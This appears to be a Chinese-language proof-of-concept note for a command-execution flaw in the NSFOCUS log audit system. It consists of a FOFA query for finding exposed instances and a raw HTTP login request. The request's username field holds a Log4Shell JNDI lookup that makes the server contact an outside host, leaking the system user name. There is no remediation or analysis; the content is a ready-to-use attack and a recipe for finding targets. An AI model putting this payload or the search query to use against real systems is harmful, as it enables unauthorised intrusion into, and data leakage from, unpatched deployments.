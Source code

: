 ## 绿盟日志审计系统存在命令执行漏洞

## fofa
```
"<title>{{platformName}}</title>" && icon_hash="-1566499661"
```

## poc
```
PUT /api/v1/login HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 36
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Accept-Language: zh_CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=C2CBDF46F7B53365D2ECE60AA645B673; sessionid=w0gr7fyrkt56tf6yc3sr0pw6mjl59txi

{"name":"${jndi:ldap://${sys:user.name}.a24693ffbb.ipv6.1433.eu.org}","password":"2Y4W5F5h"}
```

![image](../../images/a05a8dba-acfc-43d7-88c9-26f8ed6b01be.png)

![image](../../images/8df91e08-41cf-438b-88ed-5a559f20d18c.png)
